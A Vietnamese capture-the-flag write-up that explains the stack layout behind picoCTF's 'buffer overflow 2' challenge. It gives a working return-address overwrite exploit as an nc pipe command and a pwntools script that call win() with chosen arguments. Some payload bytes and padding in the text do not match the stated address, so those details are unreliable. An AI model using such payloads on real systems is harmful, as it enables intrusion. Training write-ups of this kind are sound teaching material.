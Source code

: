 # buffer overflow 2

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

b) Nhận xét

- Trước hết ta phải ghi đè địa chỉ trả về vào hàm win, sau đó muốn hàm win in ra flag thì hai đối số arg1 và arg2 phải nhận các giá trị lần lượt là 0xcafef00d và 0xf00df00d

## 2. Ý tưởng khai thác

- Đầu tiên, ta phải hiểu được cấu trúc stack của một hàm hoàn chỉnh. Dưới đây là mô hình ngăn xếp khi ta gọi một hàm nào đó:

![image.png](image.png)

- Ở đây ta thấy arg1 và arg2 là đối số của hàm được gọi, và nó được truyền vào khi ta dùng hàm call để gọi một hàm. Tuy nhiên vì ta không dùng hàm call để gọi hàm mà ta dùng kỹ thuật ghi đè địa chỉ trở về nên việc truyền đối số không thể thực hiện bình thường được. Khi đó hàm win sẽ đọc các giá trị tại vị trí mà nó mong đợi tìm thấy tham số. Những giá trị này có thể là bất kỳ thứ gì đã có sẵn trên stack tại thời điểm đó (ví dụ: các biến cục bộ của hàm bị overflow, return address cũ, hoặc đơn giản là rác trên stack)
- Vì vậy ta phải sử dụng kỹ thuật buffer overflow để tiếp tục chèn các tham số mong muốn trực tiếp vào vùng nhớ stack mà hàm win sẽ đọc. Vấn đề ở đây là ta phải tìm được địa chỉ của ô nhớ mà win sẽ đọc.
- Khi ta ghi đè địa chỉ trở về của hàm win vào return address trên stack thì hàm win vẫn chưa được gọi. Tức là nó vẫn thực hiện tiếp các câu lệnh khác trong hàm chứ chưa nhảy đến hàm win luôn. Chỉ khi nào câu lệnh ret được gọi, giá trị ghi đè vào return address mới được sử dụng, và EIP được cập nhật. Ở đây câu lệnh ret chỉ được gọi khi hàm vuln kết thúc:

![image.png](image%201.png)

- Trước câu lệnh ret ta cũng phải quan tâm đến câu lệnh leave. Câu lệnh leave tương đương 2 câu lệnh con:

```cpp
mov esp, ebp
pop ebp
```

Giá trị hiện tại của EBP sẽ được gán vào cho con trỏ ngăn xếp, và sau đó EBP được phục hồi với
giá trị đã lưu trên ngăn xếp. Đây là minh họa ngăn xếp trước và sau khi thực hiện 2 câu lệnh trên:

![image.png](image%202.png)

- Sau đó câu lệnh ret được thực hiện, lệnh ret lấy giá trị return address tại nơi ESP trỏ đến để truyền vào EIP, đồng thời ESP cũng được tăng thêm 1 ô nhớ (4 byte):

![image.png](image%203.png)

- Sau đó hàm win được gọi, phần dẫn nhập (tức là những lệnh assembly đầu tiên của 1 hàm) của hàm win gồm hai câu lệnh:

```cpp
push ebp
mov ebp, esp
```

- Lưu ý rằng: PUSH là thao tác đưa một đối tượng vào ngăn xếp. Trong cấu trúc Intel x86 32 bit, khi ta đưa một giá trị vào ngăn xếp thì CPU sẽ tuần tự thực hiện hai thao thác nhỏ:
   + ESP được gán giá trị ESP - 4, tức giá trị của ESP sẽ bị giảm đi 4.
   + Đối số của lệnh PUSH được chuyển vào 4 byte trong bộ nhớ bắt đầu từ địa chỉ do ESP xác định.
(lệnh POP cũng tương tự)
- Hình vẽ sau (chỉ mang tính minh họa) miêu tả trạng thái của stack ban đầu và stack sau 2 câu lệnh đó:

![image.png](image%204.png)

- Vậy stack hoàn chỉnh của hàm win sẽ như sau, lưu ý rằng ô chứa địa chỉ return address và arg1, arg2 chỉ là hàm win nghĩ rằng ô đó chứa, và nó sẽ đọc giá trị tại các ô nhớ đó. Nhiệm vụ bây giờ của chúng ta là chèn vào các ô nhớ đó các giá trị mà chúng ta muốn: chèn giá trị 0xCAFEF00D vào ô nhớ chứa arg1 và giá trị 0xF00DF00D vào ô nhớ chứa giá trị arg2:

![image.png](image%205.png)

- Ta dễ dàng thấy payload sẽ là: padding + địa chỉ hàm win + 4 byte ghi đè ô nhớ chứa return address của hàm win + 0xCAFEF00D + 0xF00DF00D

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Tương tự như bài buffer overflow 1 (xem write-up bài trước) ta tự tìm được padding là 112

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm, ở đây ta tìm được địa chỉ của hàm win là 0x08049296. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \x96\x92\x04\x08
- Vậy payload cần dùng là: 112 ký tự padding +  “\xf6\x91\x04\x08” + 4 ký tự padding + \x0d\xf0\xfe\xca + \x0d\xf0\x0d\xf0

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A3Abb4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2AcA3c4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6AAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A\x96\x92\x04\x08AAAA\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0"; cat) | nc saturn.picoctf.net 51471
```

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 51472)

payload=b'a'*112 + p32(0x08049296) + b'a'*4 +  p32(0xcafef00d) + p32(0xf00df00d)

p.sendline(payload)
p.interactive()
```

![image.png](image%206.png)

## 4. Kết luận

- Địa chỉ return address trong stack bị ghi đè bởi buffer overflow, nhưng nó chỉ được thực thi khi hàm ret được gọi
- Hiểu được cấu trúc hoàn chỉnh của một stack và cấu trúc stack khi gọi hàm
